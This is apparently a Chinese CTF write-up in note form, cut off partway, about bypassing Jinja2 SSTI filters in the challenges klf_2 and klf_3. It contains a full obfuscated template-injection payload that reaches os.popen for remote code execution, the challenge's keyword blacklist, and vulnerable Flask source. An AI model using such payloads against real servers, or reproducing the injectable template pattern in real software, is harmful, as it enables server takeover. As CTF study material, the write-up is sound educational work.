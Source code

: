 		- 字符可以用`(lipsum|trim|list|batch(INDEX)|first|last)`这样的payload生成
		- 然后就可以拿到chr函数了，就可以生成任意字符串，实现RCE了
		- 也可以通过生成`{:c}`并通过format生成百分号，然后和`c`拼在一起变成`%c`，就可以通过format生成任意字符了
		- 自动化思路：[[CTF/WP/klf_2的SSTI自动化绕过]]
	- 给焚靖加上了新的规则，它生成的payload长这样：
		- ```
		  {%set prrc=((dict(dict(dict(a=1)|tojson|batch(2))|batch(2))|join,(dict(c=x)|join),dict()|trim|last)|join).format(((19,18,)|sum))%}{{(((((((lipsum|attr(((((x,x,x,x,x,x,x,x,x,x,x,x,)|join(((prrc,(dict(c=x)|join))|join))))%(95,95,((39,39,25,)|sum),((35,35,35,3,)|sum),111,98,97,((35,35,35,3,)|sum),115,95,95))))|attr(((((x,x,x,x,x,x,x,x,x,x,x,x,)|join(((prrc,(dict(c=x)|join))|join))))%(95,95,((39,39,25,)|sum),((39,39,23,)|sum),116,((39,39,27,)|sum),116,((39,39,23,)|sum),((39,39,31,)|sum),95,95))))(((((x,x,x,x,x,x,x,x,x,x,x,x,x,)|join(((prrc,(dict(c=x)|join))|join))))%(95,95,98,117,((39,39,27,)|sum),((35,35,35,3,)|sum),116,((39,39,27,)|sum),((39,39,32,)|sum),115,95,95)))|attr(((((x,x,x,x,x,x,x,x,x,x,x,x,)|join(((prrc,(dict(c=x)|join))|join))))%(95,95,((39,39,25,)|sum),((39,39,23,)|sum),116,((39,39,27,)|sum),116,((39,39,23,)|sum),((39,39,31,)|sum),95,95))))(((((x,x,x,x,x,x,x,x,x,x,x,)|join(((prrc,(dict(c=x)|join))|join))))%(95,95,((39,39,27,)|sum),((39,39,31,)|sum),112,111,114,116,95,95)))((dict(o=x,s=x)|join))|attr(((((x,x,x,x,x,x,)|join(((prrc,(dict(c=x)|join))|join))))%(112,111,112,((39,39,23,)|sum),((39,39,32,)|sum)))))(((((x,x,x,x,x,)|join(((prrc,(dict(c=x)|join))|join))))%(((35,35,35,3,)|sum),115,32,((39,8,)|sum)))))|attr((dict(rea=x,d=x)|join)))())}}
		  ```
	- 做完发现blacklist长这样：
		- ```python
		  bl = ['_', '\\', '\'', '"', 'request', "+", 'class', 'init', 'arg', 'config', 'app', 'self', 'cd', 'chr',
		        'request', 'url', 'builtins', 'globals', 'base', 'pop', 'import', 'popen', 'getitem', 'subclasses', '/',
		        'flashed', 'os', 'open', 'read', 'count', '*', '38', '124', '47', '59', '99', '100', 'cat', '~',
		        ':', 'not', '0', '-', 'ord', '37', '94', '96', '[',']','index','length']#'43', '45',
		  ```
		- 里面有一堆两位数，加减乘除，url和冒号，还有`length`和`count`
		- 甚至后面还有注释掉的两位数，绝对是被针对了。。。
	- 焚靖v0.5.10会在比赛后发布，应该是可以秒掉这一题
- # klf_3
  collapsed:: true
	- 新版焚靖直接RCE（新版比赛后发布）
	- 分析了一下WAF, 自动化思路：[[CTF/WP/klf_3的SSTI自动化绕过]]
	- 源码：
	  collapsed:: true
		- ```python
		  from flask import Flask, request, render_template, render_template_string,send_from_directory
		  import re
		  import os
		  
		  app = Flask(__name__)
		  
		  @app.route('/', methods=['GET', 'POST'])
		  def index():
		      return render_template('index.html')
		  
		  @app.route('/secr3ttt', methods=['GET', 'POST'])
		  def secr3t():
		  
		      name = request.args.get('klf', '')
		      template = f'''
		         <html>
		             <body>
		                 <h1>找到secr3t了，但是找不到flag你还是个klf</h1>
		                 <h1>%s</h1>         
		             </body>
		         </html>
		         <img src=\"https://image-obsidian-1317327960.cos.ap-chengdu.myqcloud.com/obisidian-blog/8.jpg\" alt="g">
		         <!--klf?-->
		         <!-- klf还想要flag？没那么容易 -->
		  